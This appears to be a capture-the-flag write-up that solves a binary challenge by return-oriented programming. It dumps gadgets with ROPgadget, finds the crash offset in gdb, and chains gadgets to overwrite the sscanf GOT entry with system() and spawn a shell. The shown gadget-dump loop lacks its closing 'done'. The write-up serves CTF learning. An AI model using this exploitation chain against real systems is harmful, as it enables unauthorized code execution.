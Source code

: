 We can dump the gadgets for all modules using ROPgadget.

```
ROPgadget --binary ropen_to_suggestions > gadgets
for f in *.so; do echo $f >> gadgets && ROPgadget --binary $f >> gadgets
```

In order to trigger the vulnerability, our input needs to start with an "S". We
can use pwntool's cyclic to trigger the crash. We see that the saved return
address is at offset 119 in our cyclic pattern.

```
Program received signal SIGSEGV, Segmentation fault.
0x0000004200001509 in sword () from ./fighter.so
=> 0x0000004200001509 <sword+387>:  c3  ret
(gdb) x/gx $rsp
0x7ffd026fc758: 0x6161676261616662
(gdb) !cyclic -l 0x61616662
119
```

Looking through the gadgets, there are a few that look like we will be able to
compute the address of system and then write that address to an arbitrary
memory location. This should allow us to overwrite the got entry for another
function. We can compute the address of system with the following three
gadgets:

```
pop rsi         ; pop the address of the got entry for puts() into rsi
mov rdi, [rsi]  ; read the address of puts() from the got
pop rsi         ; pop the offset from puts() to system() into rsi
add rdi, rsi    ; compute address of system() in rdi
```

We can write this computed address to another got entry with the following two
gadgets:

```
pop rsi         ; pop address to write to into rsi
mov [rsi], rdi  ; store the address of system()
```

Combining these gadgets into a ROP chain will allow us to overwrite a function
of our choosing with system(). `sscanf` presents a good target, as it is called
immediately after `fgets` in the main program with our input as the first
argument. This will allow us to specify "/bin/sh" as the argument to system().
Coding this up in a pwntools [script](solve.py) yields a shell.

```
$ ./solve.py
[+] Opening connection to challenge.acictf.com on port 31803: Done
[*] '/home/user/cyberstakes/ropen_to_suggestions/ropen_to_suggestions'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/home/user/cyberstakes/ropen_to_suggestions/libc.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] puts_system_offset: 0x-2a300
[*] Sending ROP payload
[*] Triggering overwritten sscanf with /bin/sh
[*] Switching to interactive mode
$ id
```